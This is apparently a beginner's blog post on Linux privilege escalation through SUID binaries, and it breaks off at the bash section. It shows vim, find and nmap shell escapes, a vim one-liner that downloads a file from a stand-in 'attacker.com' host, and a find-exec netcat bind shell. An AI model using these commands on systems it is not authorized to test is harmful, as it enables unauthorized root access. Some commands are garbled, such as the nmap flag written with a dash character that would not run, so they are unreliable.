 ```yaml
--- 
titile: The art of gaining root 
author: Software User
date: 2021-03-17 16:31:00 +0800
category: pentest
tags: [linux,privesc,root,root-shell]
--- 
```


---
<strong><span style="color:#06bf04">Hi Guys, This is my First blog about Linux Privilege escalation. So Without wasting any time Let’s Start I’ll start with basics. </span></strong>


![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/1.png" | relative_url }})

--

# So, What is Linux and Privilege Escalation

1. Linux -: Linux is the best-known and most-used open-source operating system. As an operating system, Linux is software that sits underneath all of the other software on a computer, receiving requests from those programs and relaying these requests to the computer’s hardware.

2. PRIVILEGE ESCALATION -: Privilege escalation is a common way for attackers to gain unauthorized access to systems within a security perimeter.

3. Attackers start by finding weak points in an organization’s defenses and gaining access to a system. In many cases that the first point of penetration will not grant attackers with the level of access or data they need. They will then attempt privilege escalation to gain more permissions or obtain access to additional, more sensitive systems.

# Why Privilege Escalation is Important ?

While usually not the main aim of an attacker, privilege escalation is frequently used in preparation for a more specific attack, allowing intruders to deploy a malicious payload or execute malicious code in the targeted system. This means that whenever you detect or suspect privilege escalation, you also need to look for signs of other malicious activity. However, even without evidence of further attacks, any privilege escalation incident is an information security issue in itself, because someone could have gained unauthorized access to personal, confidential, or otherwise sensitive data. In many cases, this will have to be reported internally or to the relevant authorities to ensure compliance.

So here we covered some theoretical part the meaning of privilege escalation is gaining access on the root with a non-root account.

# Privilege Escalation through SUID 

<strong>SUID</strong> setuid and setgid are Unix access rights flags that allow users to run an executable.

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/2.png" | relative_url }})

### List of executables -:

1. vim
2. find
3. Nmap
4. bash
5. less
6. more

# How to Find Files with SUID Set in Linux?

```bash
find . -perm /4000
```

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/3.png" | relative_url }})

you can add more things in this like -l(long listing).

# 1. VIM -: 
Vim is a highly configurable text editor built to enable efficient text editing. It is an improved version of the vi editor distributed with most UNIX/Linux systems. If vim is running as a suid it can access some root files.
You can access any file you can do many things like spawning shell.

like this -:

### 1. vim.tiny /etc/shadow

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/4.png" | relative_url }})

1. Press ESC key

:set shell=/bin/sh

:shell

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/5.png" | relative_url }})

1. file download -:

```markdown
export URL=http://attacker.com/file_to_get

export LFILE=file_to_save

vim -c ‘:py import vim,sys; from os import environ as e

if sys.version_info.major == 3: import urllib.request as r

else: import urllib as r

r.urlretrieve(e[“URL”], e[“LFILE”])

vim.command(“:q!”)’
```
for more checkout [here](https://gtfobins.github.io/gtfobins/vim/
)


# 2. Find

find -: find is used to find files


```bash
touch *****
find ***** -exec whoami \;
```
![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/6.png" | relative_url }})

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/7.png" | relative_url }})

getting shell

```bash
find / -name software_user -exec netcat -lvp 5555 -e /bin/sh \;
netcat 192.*.*.* 5555
```

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/8.png" | relative_url }})

# 3. NMAP

nmap -: Older versions of Nmap (2.02 to 5.21) had an interactive mode. and through this interactive mode, you can spawn root shell.

1. nmap -V (for finding version )

2. nmap — interactive
    
3. nmap> !sh

4. whoami

5. root

![Desktop View]({{ "/assets/img/pentest/the-art-of-gaining-root/9.png" | relative_url }})

# 4. BASH

bash -: On Linux, bash is the standard shell .
open a bash shell as root.


